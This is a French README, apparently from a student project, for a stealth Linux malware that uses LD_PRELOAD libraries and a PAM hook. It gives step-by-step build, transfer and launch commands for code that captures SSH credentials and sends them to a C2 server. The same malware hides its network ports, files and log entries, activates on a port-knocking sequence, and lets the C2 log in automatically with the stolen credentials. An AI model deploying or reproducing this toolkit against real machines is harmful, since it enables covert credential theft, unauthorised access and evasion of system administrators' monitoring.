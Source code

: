  # Malika MECHKAL 3SI2

🛠️ README : Malware avec LD_PRELOAD & Port Knocking

📌 Introduction
Ce projet implémente un malware furtif exploitant LD_PRELOAD et PAM (Pluggable Authentication Modules) pour capturer les identifiants SSH et masquer sa présence sur la machine cible.

Le malware est activé via un mécanisme de Port Knocking nécessitant une séquence secrète de frappes sur les ports 1111, 2222 et 3333. Une fois activé, il intercepte les connexions SSH, récupère les identifiants et établit une connexion ssh automatique avec un serveur C2.

🔹 Fonctionnalités
    Port Knocking : Activation secrète du malware en écoutant sur 3 ports.
    Interception des identifiants SSH avec PAM.
    Masquage des connexions réseau via hide_connections.so.
    Masquage des fichiers malveillants via hide_files.so.
    Suppression et blocage des logs via hide_logs.so.
    Connexion ssh automatique sur la cible depuis serveur C2 après interception des identifiants.

📂 Installation & Exécution
#  1- Configuration des IPs
Avant de compiler, assurez-vous de configurer les IP correctes dans les fichiers malware.c et server.c :

```
#define C2_IP "192.168.18.128"  // IP du serveur C2
#define TARGET_IP SI"192.168.18.130"  // IP de la machine cible

```

# 2- Compilation du projet
Sur la machine serveur C2, utilisez make pour compiler tous les fichiers 

```
make 

```
Cela génère les exécutables suivants :
*   server
*   port_knock
*   malware.so
*   hide_connections.so
*   hide_files.so
*   hide_logs.so

# 3-  Transfert des fichiers vers la machine cible
Transférez les fichiers générés (sauf server) vers /tmp/ sur la machine cible :

```
scp port_knock malware.so hide_connections.so hide_files.so hide_logs.so user@192.168.18.130:/tmp

```
# 4-  Préparation de la machine cible
Sur la machine cible, désactivez SSH et préparez l’environnement :

```
sudo systemctl stop ssh
sudo mkdir -p /run/sshd
sudo chmod 755 /run/sshd

```

# 5- Lancement du Port Knocking
Sur la machine cible, exécutez port_knock en mode root dans le dossier /tmp:

```
sudo ./port_knock
```

# 6- Lancement du serveur C2
Sur la machine serveur C2 :

```
./server

```
Le serveur attend la frappe secrète des ports pour activer le malware.

# 7- Activation automatique du malware
Lorsque le C2 envoie des paquets aux ports 1111, 2222 et 3333, la machine cible détecte la séquence et démarre le malware avec LD_PRELOAD(malware.so).

# 8- Connexion SSH automatique & interception
*   Après activation, la machine cible attend une connexion SSH.
*   Lorsqu’un utilisateur se connecte en SSH, les identifiants sont interceptés et envoyés au serveur C2.
*   Le serveur C2 utilise ces identifiants pour se connecter automatiquement à la machine cible.
*   Un fichier credentials.log est créé à la racine du serveur avec les identifiants capturés.

# 9- Tests & Vérifications
Masquer les connexions réseau
Sur la machine cible, exécutez :

```
sudo LD_PRELOAD=/tmp/hide_connections.so netstat -tulnp

```
    => Les ports 1111, 2222 et 3333 doivent être invisibles.

# 10- Masquer les fichiers malveillants
Sur la machine cible, exécutez :

```
sudo LD_PRELOAD=/tmp/hide_files.so ls -la /tmp

```
    => Les fichiers du malware (malware.so, hide_*.so) ne doivent pas apparaître.

# 11- Masquer les logs
Sur la machine cible, exécutez :

```
sudo LD_PRELOAD=/tmp/hide_logs.so journalctl -xe

```
    => Les logs liés aux connexions SSH ne doivent plus apparaître.

# /!\######## Problème avec la branche DEV_USER_NON_ROOT
Une tentative a été faite pour exécuter port_knock sans être root sur la branche DEV_USER_NON_ROOT , mais cela a posé des problèmes de clés SSH.

Même en copiant correctement les clés dans /tmp/ssh, l’authentification ne fonctionnait pas.


